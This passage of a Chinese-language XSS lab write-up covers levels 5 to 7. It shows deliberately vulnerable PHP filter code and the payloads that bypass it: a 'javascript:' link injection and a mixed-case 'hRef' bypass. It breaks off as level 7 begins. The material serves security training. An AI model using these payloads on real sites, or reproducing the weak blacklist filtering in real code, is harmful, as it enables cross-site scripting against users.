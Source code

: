 查看后端源码，确实针对这两个标签有过滤。且有 `strtolower` 转换成小写，大小写绕过无效，只能换别的标签的注入。

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

payload

```
"> <a href=javascript:alert()>xxx</a> <"
```

## level 6

测试发现 on、script、href都会被替换，但是大小写可以绕过。

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

payload

```
"> <a hRef=javascript:alert()>xxx</a> <"
```

## level 7

on、script、href这些词大小写没有用，但是双拼写可以。看后端源码可以验证这点
